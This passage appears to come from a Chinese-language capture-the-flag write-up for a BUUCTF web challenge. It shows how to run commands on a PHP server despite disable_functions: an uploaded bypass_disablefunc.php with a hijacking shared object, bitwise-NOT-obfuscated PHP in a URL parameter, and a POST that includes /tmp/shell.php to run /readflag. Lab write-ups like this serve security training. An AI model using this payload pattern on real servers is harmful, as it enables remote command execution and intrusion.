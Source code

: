 <img src="/images/buuctf-web2/image-20221024221953485.png" alt="image-20221024221953485" style="zoom:80%;" />

这里上传后需要访问到刚刚上传的php文件,并get传参执行命令:

>一是 cmd 参数，待执行的系统命令（如 pwd）；二是 outpath 参数，保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点；三是 sopath 参数，指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。此外，bypass_disablefunc.php 拼接命令和输出路径成为完整的命令行，所以你不用在 cmd 参数中重定向。

这里我们无法访问到`/tmp`目录的文件,所以通过刚刚的方法,在`POST`中执行一个文件包含函数:

然后再按照要求传`cmd`,`outpath`,`sopath`这三个参数

```
http://ce4afe32-8659-4ef4-ad14-633769a475a9.node4.buuoj.cn:81/?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AD%BA%AE%AA%BA%AC%AB%A4%CE%A2%D6%C4);&cmd=/readflag&outpath=/tmp/tmpfile&sopath=/tmp/bypass_disablefunc_x64.so

post:
1=include(%27/tmp/shell.php%27);
```

命令被成功执行:

![image-20221024223414176](/images/buuctf-web2/image-20221024223414176.png)

